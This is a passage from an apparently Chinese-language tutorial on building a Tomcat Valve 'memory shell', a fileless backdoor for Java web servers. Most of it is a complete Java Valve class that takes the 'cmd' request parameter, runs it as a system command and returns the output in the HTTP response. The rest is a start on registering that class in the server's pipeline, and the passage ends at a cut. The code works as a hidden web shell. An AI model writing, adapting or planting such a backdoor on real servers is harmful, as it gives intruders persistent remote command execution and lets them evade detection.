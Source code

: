 具体的调用过程可以在https://forum.butian.net/share/2436中看到

# 实现valve内存马

在Engine、Host、Context、Warpper这四个组件中，其实都有一些固有的Valve，比如`StandardWrapperValve`，`StandardHostValve`，而这些类其实又都是继承了BaseValve

然后在valve的链式调用中，是调用其invoke方法，所以先来写一个valve类

```
class TestValve extends ValveBase{
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        try {
            if (request.getParameter("cmd") != null){
                String cmd = request.getParameter("cmd");
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                String line = null;
                while ((line = bufferedReader.readLine()) != null){
                    response.getWriter().println(line);
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        getNext().invoke(request, response);
    }
}
```

这里直接写命令执行的valve了，反正自带了response对象

接下来看getPipline方法，在调用valve前，需要得到其Pipline
